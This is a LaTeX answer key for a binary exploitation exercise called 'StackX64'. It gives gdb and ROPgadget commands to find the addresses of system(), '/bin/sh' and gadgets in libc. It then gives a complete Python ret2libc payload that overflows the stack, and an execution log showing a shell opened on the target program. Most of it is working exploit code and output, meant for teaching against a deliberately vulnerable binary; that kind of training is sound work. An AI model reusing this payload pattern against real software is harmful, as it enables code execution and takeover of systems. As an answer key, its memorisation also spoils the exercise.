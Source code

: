 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{correction}
\textbf{4b)} Address of \texttt{system()}:
\begin{lstlisting}[style=GDBStyle]
(gdb) break main
(gdb) run
(gdb) print system
$1 = {int (const char *)} 0x7ffff7e17290 <__libc_system>
\end{lstlisting}

\textbf{4c)} Finding \texttt{"/bin/sh"}:
\begin{lstlisting}[style=GDBStyle]
$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
  1b3d88 /bin/sh
(gdb) info proc mappings
          Start Addr           End Addr  ...  objfile
      0x7ffff7dc0000     0x7ffff7fe8000  ...  libc.so.6
\end{lstlisting}
Address of \texttt{"/bin/sh"} = \texttt{0x7ffff7dc0000 + 0x1b3d88} = \texttt{0x7ffff7f73d88}

\textbf{4d)} Gadget \texttt{pop rdi; ret}:
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep "pop rdi"
0x0000000000401283 : pop rdi ; ret
\end{lstlisting}

\textbf{4e)} Gadget \texttt{ret} (for alignment):
\begin{lstlisting}[style=GDBStyle]
$ ROPgadget --binary stackx64 | grep ": ret$"
0x000000000040101a : ret
\end{lstlisting}

\textbf{4f)} Python3 script for the ret2libc exploit:
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase4.py]
import sys

offset = 72

# Addresses (adjust based on your system)
ret_gadget     = 0x40101a           # ret (alignment)
pop_rdi_ret    = 0x401283           # pop rdi; ret
bin_sh_addr    = 0x7ffff7f73d88     # "/bin/sh" in libc
system_addr    = 0x7ffff7e17290     # system() in libc

def p64(addr):
    return addr.to_bytes(8, byteorder='little')

payload  = b"A" * offset
payload += p64(ret_gadget)       # align stack to 16 bytes
payload += p64(pop_rdi_ret)      # pop rdi; ret
payload += p64(bin_sh_addr)      # rdi = "/bin/sh"
payload += p64(system_addr)      # call system("/bin/sh")

sys.stdout.buffer.write(payload)
\end{lstlisting}

Execution:
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase4.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
...
whoami
student
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
